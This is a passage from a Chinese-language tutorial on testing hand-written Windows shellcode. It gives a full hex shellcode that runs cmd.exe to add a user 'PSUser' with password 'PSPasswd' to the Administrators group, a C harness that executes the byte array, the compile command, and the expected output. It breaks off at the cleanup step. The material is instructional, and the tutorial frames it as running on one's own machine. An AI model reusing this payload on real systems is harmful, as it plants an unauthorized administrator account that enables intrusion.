 这产生一个可以被使用于一个c程序内的字符数组.

输出的每个十六进制的号码（0xXX）在shellcode内代表一个字节.

我们将使用”xxd-shellcode.sh”脚本来去除可以直接地放入我们的“shellcodetest.c”程序中的半成品shellcode,正如我们在上一个教程中做的那样，在下面将会展示:

> ./xxd-shellcode.sh adduser.bin \xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00 Testing the shellcode

测试shellcode

使用”shellcodetest.c”程序来测试我们的shellcode.这个步骤的目的是为了把我们的shellcode插入到一个c程序中,然后可以编译并执行这个c程序.为了执行我们的shellcode,这个程序已经设计好了.

这样做之前,需要把你的shellcode插入（从上个步骤生成的）到这个程序中.你把它放到”code[]”数组的引号之间.最后应该看起来像如下代码中所示的那样:

```
+----------------- Start updated shellcodetest.c -----------------+
/*shellcodetest.c*/
char code[] = "\xeb\x16\x5b\x31\xc0\x50\x53\xbb\xb5\x15\x86\x7c\xff\xd3\x31\xc0\x50\xbb\x82\xca\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72\x00";
int main(int argc, char **argv)
{
int (*func)();
func = (int (*)()) code;
(int)(*func)();
}
+----------------- End updated shellcodetest.c -----------------+

```

我们现在需要编译已经修改好的shellcodetest.c程序以使它可以执行我们的shellcode.可以用如下命令完成:

> gcc -o shellcodetest shellcodetest.c

创建可执行程序”shellcodetest.exe”.

在运行这个程序之前,会想在你的本地系统上通过运行以下命令来列出用户的账户

> net user     (列出在你系统上的本地账户)

你现在应该可以通过这个测试程序来执行你的shellcode了.这个shellcode被设计来在你的系统上添加一个具有管理员权限的用户（称作”PSUser”）,然后它会干净利索地退出

> ./shellcodetest.exe   The command completed successfully. 命令成功完成   (添加用户账户) 命令成功完成   (添加用户账户到管理组)   (干净利索地退出)

现在可以通过再次运行”net user”命令确认是否已经创建了账户,正如如下所示:

> net user     (列出本地系统的账户现在包含PSUser这个账户了)

整理

你应该查明你是否已经从你的系统中删除了这个账户,以确保该账户不会被人用来黑进你的系统.可以使用以下命令完成:
